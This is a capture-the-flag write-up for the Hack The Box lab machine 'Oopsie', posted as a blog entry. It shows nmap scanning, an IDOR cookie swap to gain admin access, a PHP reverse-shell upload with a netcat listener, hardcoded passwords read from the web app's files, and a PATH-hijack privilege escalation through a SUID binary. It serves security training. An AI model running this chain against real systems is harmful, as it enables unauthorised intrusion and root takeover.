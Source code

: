 ```yaml
---
layout: post
title: 'HTB | Oopsie'
permalink: /htb/starting-point/oopsie/
---
```


# Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can crawl the page with **ZAP**, we will find a login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight bash %}
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight bash %}
> sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight bash %}
> cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight bash %}
> python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight bash %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight bash %}
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
{% endhighlight %}

We can see that **bugtracker** is using cat. If we create a file name **cat** inside **/tmp**, replace the content by **/bin/sh** and change the PATH to **/tmp** and execute bugtracker, we get a shell with root.

##### I need to remove the file cat after getting access to root, so I can make a cat to the flags.
